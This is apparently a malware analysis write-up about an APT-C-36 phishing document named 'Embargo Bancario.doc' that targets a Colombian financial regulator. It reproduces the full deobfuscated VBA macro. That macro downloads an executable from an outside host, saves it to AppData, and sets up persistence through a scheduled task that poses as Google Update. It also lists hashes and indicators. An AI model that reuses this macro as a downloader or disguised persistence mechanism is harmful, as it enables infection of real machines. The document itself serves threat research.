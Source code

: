 This is #APT-C-36

sha256 : **380dc1e34c39c41334f69250440554427182c747134bdea1739c31d4b8f1b288**

ITW Filename : **Embargo Bancario.doc**

The document seems to be targeting **Superintendencia Financiera de Colombia**

![Document](../images/380dc1e34c39c41334f69250440554427182c747134bdea1739c31d4b8f1b288_0001.png)

We can see that there is .mso file with ActiveMIME. Probably containing the VBA that it's downloading and executing the payload.

![ActiveMIME](../images/380dc1e34c39c41334f69250440554427182c747134bdea1739c31d4b8f1b288_0002.png)

Normally i would use Cerbero Suite Advanced to extract it and you will get back something like this shown below.

![VBA](../images/380dc1e34c39c41334f69250440554427182c747134bdea1739c31d4b8f1b288_0003.png)

However, this time round, i made this [script](../../Analysis%20Scripts/pyExtract_ActiveMIME_from_MHTML.py)

We should be able to see the VBA from the extracted ActiveMIME
```vb
' module: ThisDocument

Attribute VB_Name = "ThisDocument"
Attribute VB_Base = "1Normal.ThisDocument"
Attribute VB_GlobalNameSpace = False
Attribute VB_Creatable = False
Attribute VB_PredeclaredId = True
Attribute VB_Exposed = True
Attribute VB_TemplateDerived = True
Attribute VB_Customizable = True
Option Explicit

Const TASK_ACTION_EXEC = 0
Const TASK_CREATE_OR_UPDATE = &H6&
Const TASK_LOGON_INTERACTIVE_TOKEN = 3
Const TASK_RUNLEVEL_LUA = 0
Const TASK_RUNLEVEL_HIGHEST = 1
Const TASK_TRIGGER_DAILY = 2
Const THREAD_PRIORITY_BELOW_NORMAL As Long = 8

Public Sub fcL4qOb4()
On Error Resume Next
Dim Issqwe6 As String
Dim m43nrukO6XFjm As Object
Dim NoERgwg0 As Date
NoERgwg0 = Now()
Issqwe6 = Replace$(Format$(NoERgwg0, "yyyymmdd-HhNn"), ".", "-")
With CreateObject("Schedule.Service")
.Connect
Set m43nrukO6XFjm = .NewTask(0)
With m43nrukO6XFjm
With .RegistrationInfo
.Description = "Esta tarea detiene el Agente de telemetría de Google, que examina y carga la información sobre el uso y los errores de las soluciones de Google cuando un usuario inicia sesión en el sistema."
.Author = "Google Inc"
End With
With .Principal
.ID = "P" & Issqwe6
.RunLevel = TASK_RUNLEVEL_LUA
End With
With .Settings
.Enabled = True
.StartWhenAvailable = True
.WakeToRun = False
.Priority = THREAD_PRIORITY_BELOW_NORMAL
.DisallowStartIfOnBatteries = False
.RunOnlyIfIdle = False
.StopIfGoingOnBatteries = False
.AllowHardTerminate = True
.Hidden = False
.ExecutionTimeLimit = "PT0S"
.IdleSettings.StopOnIdleEnd = False
End With
With .Triggers.Create(TASK_TRIGGER_DAILY)
.ID = "DAILY"
.StartBoundary = "2015-05-02T06:00:00"
.Enabled = True
.Repetition.Interval = "PT1M"
End With
With .Actions.Create(TASK_ACTION_EXEC)
.Path = Environ("AppData") & "\p.exe" '  AQUI
End With
End With
With .GetFolder("\")
On Error Resume Next
.RegisterTaskDefinition "GoogleUpdate", m43nrukO6XFjm, TASK_CREATE_OR_UPDATE, , , TASK_LOGON_INTERACTIVE_TOKEN
If Err Then
Else
End If
End With
End With
End Sub
Public Sub AukPZZYdNGN()
If "YbSrGzjRToQUjtOcPBd" = "xaHZKOpOaTmjGcA" Then End
End Sub
Public Sub Document_Open()
On Error Resume Next
If 682507832 = 682507832 + 1 Then End
Dim KfsHoGryV As Byte
GoTo WGR
WGR:
Call Main
fcL4qOb4
End Sub
Public Sub uIeRbztQZF()
Dim IRRQUszGlx As Integer
IRRQUszGlx = "2582"
End Sub



' module: Módulo1

Attribute VB_Name = "Módulo1"
Sub Main()
On Error Resume Next
Call ifO7tRe8("http://medicosempresa.com/image/win.jpg", Environ("AppData") & "\p.exe")
End Sub
Public Function uATcQxssrwhovLmlBr()
If "SQynHypCMvvjj" = "SfHbGewIwtnFDaJTa" Then End
End Function
Public Function iyzUQgDlOeKQksiNIIHM()
If "SQynHypCMvvjj" = "SfHbGewIwtnFDaJTa" Then End
Dim CoEHKCbEjT As Currency
CoEHKCbEjT = "1403"
End Function
Function ifO7tRe8(SAS As String, SDE As String) As Long
On Error GoTo 1:
Dim WIIGMumv5k                     As Object
Dim qHKA4mdUzC0               As Object
If 131666564 = 131666564 + 1 Then End
Dim Wck As Double
GoTo qrSbnQ
qrSbnQ:
Set WIIGMumv5k = CreateObject("Microsoft.XMLHTTP")
Set qHKA4mdUzC0 = CreateObject("Adodb.Stream")
If 240525565 = 240525565 + 1 Then End
Dim HJdG As Currency
GoTo OmFeFQKcLi
OmFeFQKcLi:
Call WIIGMumv5k.Open("GET", SAS, 0)
Call WIIGMumv5k.Send
qHKA4mdUzC0.Type = 1
Call qHKA4mdUzC0.Open
Call qHKA4mdUzC0.Write(WIIGMumv5k.responseBody)
Call qHKA4mdUzC0.SaveToFile(SDE, 2)
Call qHKA4mdUzC0.Close
ifO7tRe8 = 1
Exit Function
1:
End Function
Public Sub uFonbMoKQlS()
GoTo omgyvRoMROadsNO
omgyvRoMROadsNO:
End Sub
Public Sub idGVpIcQLrABzEpipThg()
GoTo omgyvRoMROadsNO
omgyvRoMROadsNO:
If "TjbLtvPsxLVqDr" = "EbaBjAnrQr" Then End
End Sub

```
We can see that it's downloading payload from **hxxp://medicosempresa[.]com/image/win.jpg**

We can also see that
|Author|Google Inc|
|Description|Esta tarea detiene el Agente de telemetría de Google, que examina y carga la información sobre el uso y los errores de las soluciones de Google cuando un usuario inicia sesión en el sistema.|
|Task Action|Launch %AppData%\p.exe|
|Task Definition|GoogleUpdate|

sha256 of **hxxp://medicosempresa[.]com/image/win.jpg** is **436611717cf191ce60d159643e082d83dc6d3dae95965e30aa248385c8e3decb**


Thanks to friends for helping to identify this.
https://twitter.com/Timele9527/status/1141326468200329216

We can see that it's connected to https://ti.qianxin.com/blog/articles/apt-c-36-continuous-attacks-targeting-colombian-government-institutions-and-corporations-en/
